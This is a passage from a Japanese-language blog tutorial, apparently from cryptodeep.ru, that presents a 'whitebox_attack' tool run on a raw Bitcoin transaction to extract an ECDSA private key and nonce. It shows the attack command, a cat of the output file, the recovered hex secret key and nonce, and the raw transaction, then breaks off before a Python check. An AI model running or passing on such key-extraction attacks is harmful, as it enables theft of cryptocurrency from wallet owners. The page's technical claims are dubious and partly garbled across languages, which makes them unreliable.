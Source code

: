 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-47-1024x262.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1649"/></figure>



<p>この攻撃は から開始され<code>-tool whitebox_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-46-1024x374.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1647"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xa402dc224f712e09602b06c595f272f3028a6a6f6ef174708aac8121c40e8545

RawTX = 0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000</code></pre>



<p><code>"Deployments ECDSA"</code>ビットコイン ブロックチェーン トランザクションの重大な脆弱性を意味する碑文が表示されます。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>Python</em>スクリプトで確認してみましょう<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>ECPy</strong></a>楕円曲線ライブラリを使用しましょう:</p>

